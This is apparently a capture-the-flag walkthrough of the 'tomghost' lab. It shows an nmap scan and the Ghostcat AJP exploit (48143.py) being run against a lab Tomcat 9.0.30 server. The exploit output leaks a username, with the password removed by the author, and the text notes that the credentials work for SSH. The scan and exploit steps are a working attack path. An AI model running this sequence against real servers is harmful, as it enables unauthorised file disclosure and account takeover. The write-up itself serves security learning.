

# tomghost

I have to find out what is on the server. For this, we can use an nmap scan with the following command:

```bash
sudo nmap -T4 -A IP_address > nmap 
```

We then read the nmap file to see what the server has on it:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 04:18 GMT
Nmap scan report for 10.10.151.10
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.30 seconds
```

We can see that there are 4 main ports available. Since there is no port 80 \(regular HTTP port\), we have to look at other ports to see if there is a website for any of these services. Port 8080, had this on the site:



We now know that they are using the Apache version Tomcat 9.0.30. I will try to use msfconsole \(Metasploit\) in order to find out if there is a vulnerability against this. Searching on exploit-db.com led me to this:


At this point, I am thinking that "Ghostcat" might be my way in. I then used searchsploit in order to see what exploits are currently on my ParrotOS relating to this:


I will then copy this file to my local directory so I can use it for the exploit:


I did get lost here because I did find the right exploit, but it was not working for some reason. I did have to search online at this part, and came upon this [website](https://cyber-99.co.uk/thm-tomghost), and I saw they were using a command similar to mine with only one change: they were using the "python2.7" command instead of the regular "python" command. I entered the following:

```c
python2.7 48143.py 10.10.151.10
```

The output to the command was the following:

```markup
Getting resource at ajp13://10.10.151.10:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:password <!----I took out the password----->
  </description>

</web-app>

```

After this, I saved the username and password. I had to see where the username and password would fit into. Turns out, it works for SSH:


